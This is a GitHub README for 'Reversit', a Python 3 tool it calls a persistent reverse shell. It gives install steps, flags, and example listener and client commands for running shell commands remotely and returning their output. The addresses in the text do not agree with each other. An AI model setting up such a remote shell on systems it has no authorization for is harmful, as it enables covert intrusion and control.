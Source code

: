 # ![Reversit](/img/Reversit.png)
## Persistent Reverse Shell Written in Python 3
## 🔧 Install
### macOS & Linux
 1. Clone the repository from github: `git clone https://github.com/Brandonli-13/Reversit.git`
 2. Change to Reversit directory: `cd Reversit/`
 3. Make `install` executable: `chmod +x ./install`
 4. Run `./install`: `./install`

## 🔨 Usage
### Flags
 `-h`, `--help`: Display help message
 `-a`, `--address`: Set IP address to connect to (client) / IP address to listen for a connection on (server)<br/>
 `-p`, `--port`: Set port number to connect to (client) / port number to listen for a connection on (server)<br/>
 `-b`, `--buffer`: Set buffer size, default: 131072 (bytes)<br/>
 `-s`, `--separator`: Set separator between type of request and data, default: \<separator\><br/>
 `-l`, `--listen`: Listen for incoming connections<br/>

### Example
 Server: `reversit -a 10.123.10.55 -p 7258 -b -s -l`
 Client: `reversit -a 10.123.10.55 -p 7258 -b -s`

## 🪛 Features
* When the client side closes connection, the server will keep on listening for another connection
* Ability to change directory

### 🍴 Fork it!
### ⭐️ Star it!
### ❕Report issues!

## ⚙️ How Reversit Works
1. Server: `reversit -a 10.123.10.55 -p 7258 -b -s -l` <-- Starts listening on 127.0.0.1:7258
2. Client: `reversit -a 10.123.10.55 -p 7258 -b -s` <-- Connects to server on 127.0.0.1:7258
3. Client: `ls` <-- Sends `command<separator>ls` to server
4. Server: Recognizes `command` before separator and executes command
5. Server: Sends command output (stdout) to client
6. Client: Displays output
